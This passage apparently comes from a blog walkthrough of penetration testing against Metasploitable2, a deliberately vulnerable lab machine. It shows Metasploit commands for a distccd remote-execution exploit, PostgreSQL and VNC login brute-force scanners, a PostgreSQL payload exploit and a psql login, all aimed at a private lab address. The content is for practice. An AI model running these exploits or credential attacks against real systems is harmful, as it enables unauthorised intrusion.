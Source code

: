 {% img  /images/blog/misc/metasploitable2/Selection_012.png   [title manually exploit [alt text]] %}




### distccd (port 3632)

search distccd, find a exploit `exploit/unix/misc/distcc_exec`

```
use exploit/unix/misc/distcc_exec
msf exploit(distcc_exec) > set rhost 192.168.79.179
msf exploit(distcc_exec) > exploit 

```

{% img  /images/blog/misc/metasploitable2/Selection_033.png   [title manually exploit [alt text]] %}



### PostgreSQL (port 5432)

search postgresql, find a module `auxiliary/scanner/postgres/postgres_login`

```
msf > use auxiliary/scanner/postgres/postgres_login
msf auxiliary(postgres_login) > set  RHOSTS 192.168.79.179
msf auxiliary(postgres_login) > run
```

{% img  /images/blog/misc/metasploitable2/Selection_034.png   [title manually exploit [alt text]] %}

find username/password, login to postgresql.

`psql -h 192.168.79.179 -U postgres`


{% img  /images/blog/misc/metasploitable2/Selection_035.png   [title manually exploit [alt text]] %}


There is another exploit: `exploit/linux/postgres/postgres_payload`

```
msf > use exploit/linux/postgres/postgres_payload
msf exploit(postgres_payload) > set rhost 192.168.79.17
msf exploit(postgres_payload) > exploit
```

{% img  /images/blog/misc/metasploitable2/Selection_036.png   [title manually exploit [alt text]] %}



### VNC (port 5900)

search vnc, find a `auxiliary/scanner/vnc/vnc_login`

```
msf > use auxiliary/scanner/vnc/vnc_login
msf auxiliary(vnc_login) > set rhosts 192.168.79.179
msf auxiliary(vnc_login) > run
```
